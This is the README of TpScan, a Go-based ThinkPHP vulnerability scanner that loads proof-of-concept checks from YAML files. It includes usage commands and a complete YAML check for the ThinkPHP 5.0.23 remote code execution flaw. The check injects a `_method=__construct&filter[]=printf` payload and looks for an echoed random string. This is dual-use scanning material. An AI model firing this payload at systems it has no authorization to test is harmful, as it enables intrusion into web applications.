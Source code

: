 ![TpScan](https://socialify.git.ci/captain686/TpScan/image?font=Raleway&forks=1&issues=1&language=1&name=1&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

## ☃️What

使用`golang`编写的ThinkPHP扫描器，`POC`采用`ymal`文件加载

## 🤪How

- 单个`URL`测试

```bash
./TpScan.exe -u http://node4.buuoj.cn:26433/
```

- 批量`URL`测试

```bash
./TpScan.exe -f test.txt
```

## 🤑About

- `Ymal`文件格式

  ```yaml
  name: 5.0.23-Rce
  rules:
    r1:
      request:
        method: GET
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
      expression:
  #      result: and
  #      response_status: 404
        inResponse: |
          randomStr
  
    r2:
      request:
  #支持POST和GET    
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
        FollowRedirects: true
  #允许302跳转，默认为true
      expression:
  # r2验证结果为 response_status == 404 && inResponse(randomStr)
        result: and
  #      result: or
        response_status: 404
        inResponse: |
          randomStr
  #randomStr为占位符，会被自动替换为10位随机字符
  
  expression:
  r1 || r2
  #  r1 && r2
  #支持逻辑运算
  
  
  # 信息部分
  detail:
    author: Captain686
    links:
      - https://github.com/captain686
  ```
  
  
  
  在`Xray`的`poc`格式基础上进行部分修改
  
  `Poc`文件存放在`exploit`目录下

## 😎ToDo

- [ ] 后续更新`Poc`文件
